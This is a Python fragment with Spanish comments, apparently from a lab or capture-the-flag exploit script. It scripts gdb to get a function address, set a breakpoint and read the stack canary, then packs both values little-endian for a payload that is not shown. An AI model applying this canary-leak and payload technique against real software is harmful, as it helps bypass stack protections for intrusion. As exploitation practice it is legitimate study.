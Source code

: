 ```python
    secure_gdb = "/usr/local/bin/secure_gdb"
    gdb_process = pexpect.spawn(f"sudo {secure_gdb} {binary_path}", timeout=10, maxread=10000, searchwindowsize=100)
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set disassembly-flavor intel") # configurando el formato que usara gbd para desensamblar, en este caso el formato de intel
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set pagination off") # desactivamos la paginacion de gdb y asi evitamos que nos pregunte si continuar cuando la salida es muy extensa
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set style enabled off") # desactivamos los colores en la salida de gdb, ya que esto nos impide grepear para extraer informacion
    gdb_process.expect("(gdb)")
    gdb_process.sendline("break main")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("run")

    # Extraccion de la direccion de factor1
    gdb_process.expect("(gdb)")
    gdb_process.sendline("p factor1")
    gdb_process.expect_exact("(gdb)", timeout=10)
    address_factor1 = gdb_process.before.decode('utf-8')
    match = re.search(r'0x[0-9a-f]+', address_factor1)
    if match:
       address_factor1_str = match.group(0)  # Extraer la dirección en formato hexadecimal
       address_factor1_int = int(address_factor1_str, 16)
       address_factor1_le = p64(address_factor1_int) # direccion de factor1 en formato little-endian lista para el payload
       gdb_process.sendline(" ") # prepara gdb para recibir el siguiente comando!
    else:
       print("No se pudo extraer la dirección de factor1().")
       exit(1)

    # desensamble de la funcion factor2 y obtencion de una direccion de memoria para crear un punto de interrupcion y posteriormente extraer el canary
    gdb_process.expect("(gdb)")
    gdb_process.sendline("disas factor2")
    gdb_process.expect_exact("(gdb)", timeout=10)
    address_factor2 = gdb_process.before.decode('utf-8')
    lines = address_factor2.splitlines()
    memory_addresses = [line.split()[0] for line in lines if '<+' in line]
    if len(memory_addresses) >= 7:
       seventh_memory_address = memory_addresses[6]
       gdb_process.sendline(" ")
       gdb_process.expect("(gdb)")
       gdb_process.sendline(f"break *{seventh_memory_address}")
       gdb_process.expect("(gdb)")
       gdb_process.sendline("continue")
    else:
       print("No hay suficientes direcciones de memoria en la salida")

    # extraccion del canary
    gdb_process.expect("(gdb)")
    gdb_process.sendline("x/1gx $rbp-0x8")
    gdb_process.expect_exact("(gdb)", timeout=10)
    output_canary = gdb_process.before.decode('utf-8')
    canary_value = output_canary.split(':')[1].strip().split()[0]
    output_canary_int = int(canary_value, 16)
    output_canary_le = struct.pack('<Q', output_canary_int) # canary listo en formato little-endian para el payload
    gdb_process.sendline(" ")
    gdb_process.expect("(gdb)")
    
```